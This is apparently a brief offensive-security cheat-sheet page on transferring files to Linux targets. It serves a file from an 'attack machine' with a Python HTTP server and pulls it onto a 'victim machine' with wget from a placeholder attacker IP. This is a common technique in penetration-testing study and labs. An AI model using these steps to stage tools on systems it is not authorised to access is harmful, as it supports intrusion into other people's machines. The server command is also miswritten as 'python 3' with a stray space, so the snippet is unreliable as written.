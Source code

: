 ```yaml
---
up: "[[Transferring Files]]"
---
```


# Transferring Files to Linux Targets

```bash
# on attack machine
python 3 -m http.server 80
# on victim machine
wget http://<ip>/<file>
```
